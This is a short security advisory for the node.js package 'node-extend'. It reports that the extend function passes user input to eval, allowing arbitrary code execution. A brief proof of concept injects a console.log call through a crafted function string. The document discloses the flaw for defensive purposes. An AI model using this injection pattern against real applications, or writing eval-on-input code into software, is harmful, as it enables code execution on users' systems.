 # Overview

`node-extend` is an extend for node.js.

This package is vulnerable to Arbitrary Code Execution. User input provided to the argument A of extend `function(A,B,as,isAargs)` located within `lib/extend.js` is executed by the `eval` function, resulting in potentially malicious code execution.

# Proof of Concept

```
var extend = require("node-extend");
foo = extend("function (){});console.log(234); //(){console.log(123)}","")
console.log(foo);
```
